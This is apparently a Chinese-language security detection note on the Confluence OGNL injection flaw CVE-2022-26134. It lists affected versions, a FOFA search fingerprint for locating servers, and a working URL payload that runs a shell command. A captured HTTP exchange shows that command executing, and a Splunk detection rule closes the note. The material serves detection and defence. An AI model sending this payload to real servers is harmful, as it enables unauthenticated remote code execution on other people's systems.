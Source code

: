 # T1190-CVE-2022-26134-Confluence OGNL表达式注入命令执行漏洞

## 来自ATT&CK的描述

使用软件，数据或命令来利用面向Internet的计算机系统或程序中的弱点，从而导致意外或无法预期的行为。系统的弱点可能是错误、故障或设计漏洞。这些应用程序通常是网站，但是可以包括数据库（例如SQL），标准服务（例如SMB 或SSH）以及具有Internet可访问开放的任何其他应用程序，例如Web服务器和相关服务。根据所利用的缺陷，这可能包括“利用防御防卫”。

如果应用程序托管在基于云的基础架构上，则对其进行利用可能会导致基础实际应用受到损害。这可以使攻击者获得访问云API或利用弱身份和访问管理策略的路径。

对于网站和数据库，OWASP排名前10位和CWE排名前25位突出了最常见的基于Web的漏洞。

## 测试案例

### 简介

Confluence是一个专业的企业知识管理与协同软件，也可以用于构建企业wiki。使用简单，但它强大的编辑和站点管理特征能够帮助团队成员之间共享信息、文档协作、集体讨论，信息推送。

Confluence Server and Data Center存在一个远程代码执行漏洞，未经身份验证的攻击者可以利用该漏洞向目标服务器注入恶意ONGL表达式，进而在目标服务器上执行任意代码。

### 受影响版本

```yml
Confluence Server and Data Center >= 1.3.0
Confluence Server and Data Center < 7.4.17
Confluence Server and Data Center < 7.13.7
Confluence Server and Data Center < 7.14.3
Confluence Server and Data Center < 7.15.2
Confluence Server and Data Center < 7.16.4
Confluence Server and Data Center < 7.17.4
Confluence Server and Data Center < 7.18.1
```

### EXP/POC

请勿用做非法用途，仅用于检测测试。

fofa语法：icon_hash="-305179312"

```yml
/%24%7B%28%23a%3D%40org.apache.commons.io.IOUtils%40toString%28%40java.lang.Runtime%40getRuntime%28%29.exec%28%22id%22%29.getInputStream%28%29%2C%22utf-8%22%29%29.%28%40com.opensymphony.webwork.ServletActionContext%40getResponse%28%29.setHeader%28%22X-Cmd-Response%22%2C%23a%29%29%7D/
```

URL decode

```yml
/${(#a=@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec("' command '").getInputStream(),"utf-8")).(@com.opensymphony.webwork.ServletActionContext@getResponse().setHeader("X-Cmd-Response",#a))}/
```

<https://github.com/Nwqda/CVE-2022-26134/blob/master/cve-2022-26134.py>

<https://github.com/crowsec-edtech/CVE-2022-26134/blob/main/exploit.py>

## 检测日志

HTTP.log

## 测试复现

参考测试留痕内容。

## 测试留痕

```yml
GET /%24%7B%28%23a%3D%40org.apache.commons.io.IOUtils%40toString%28%40java.lang.Runtime%40getRuntime%28%29.exec%28%22id%22%29.getInputStream%28%29%2C%22utf-8%22%29%29.%28%40com.opensymphony.webwork.ServletActionContext%40getResponse%28%29.setHeader%28%22X-Cmd-Response%22%2C%23a%29%29%7D/ HTTP/1.1
Host: x.x.x.x:81
User-Agent: python-requests/2.27.1
Accept-Encoding: gzip, deflate, br
Accept: */*
Connection: keep-alive

HTTP/1.1 302 
Cache-Control: no-store
Expires: Thu, 01 Jan 1970 00:00:00 GMT
X-Confluence-Request-Time: 1654694968696
Set-Cookie: JSESSIONID=D7258B0DCEE36AE8056A8853FDCE6E69; Path=/; HttpOnly
X-XSS-Protection: 1; mode=block
X-Content-Type-Options: nosniff
X-Frame-Options: SAMEORIGIN
Content-Security-Policy: frame-ancestors 'self'
X-Cmd-Response: uid=2002(confluence) gid=2002(confluence) groups=2002(confluence) 
Location: /login.action?os_destination=%2F%24%7B%28%23a%3D%40org.apache.commons.io.IOUtils%40toString%28%40java.lang.Runtime%40getRuntime%28%29.exec%28%22id%22%29.getInputStream%28%29%2C%22utf-8%22%29%29.%28%40com.opensymphony.webwork.ServletActionContext%40getResponse%28%29.setHeader%28%22X-Cmd-Response%22%2C%23a%29%29%7D%2Findex.action&permissionViolation=true
Content-Type: text/html;charset=UTF-8
Content-Length: 0
Date: Wed, 08 Jun 2022 13:29:28 GMT
Keep-Alive: timeout=20
Connection: keep-alive
```

## 检测规则/思路

参考[splunk官方建议](https://www.splunk.com/en_us/blog/security/atlassian-confluence-vulnerability-cve-2022-26134.html)

[Splunk公开规则](https://github.com/splunk/security_content/blob/develop/detections/web/confluence_unauthenticated_remote_code_execution_cve_2022_26134.yml)

```sql
| tstats count min(_time) as firstTime max(_time)
  as lastTime from datamodel=Web where Web.url IN ("*${*", "*%2F%7B*") (Web.url="*org.apache.commons.io.IOUtils*" Web.url="*java.lang.Runtime@getRuntime().exec*") OR (Web.url="*java.lang.Runtime%40getRuntime%28%29.exec*") OR (Web.url="*getEngineByName*" AND Web.url="*nashorn*" AND Web.url="*ProcessBuilder*")
  by Web.http_user_agent Web.http_method, Web.url,Web.url_length Web.src, Web.dest sourcetype
  | `drop_dm_object_name("Web")`
  | `security_content_ctime(firstTime)` 
  | `security_content_ctime(lastTime)` 
  | `confluence_unauthenticated_remote_code_execution_cve_2022_26134_filter
```

对url中包含"%24%7B"或者"/${*"进行重点监测。可结合"java.lang.Runtime%40getRuntime%28%29.exec"进行辅助研判。

## 参考推荐

MITRE-ATT&CK-T1190

<https://attack.mitre.org/techniques/T1190/>

atlassian-confluence-vulnerability-cve-2022-26134

<https://www.splunk.com/en_us/blog/security/atlassian-confluence-vulnerability-cve-2022-26134.html>

CVE-2022-26134漏洞复现(Confluence OGNL注入rce漏洞)

<https://blog.csdn.net/qq_17754023/article/details/125125221>

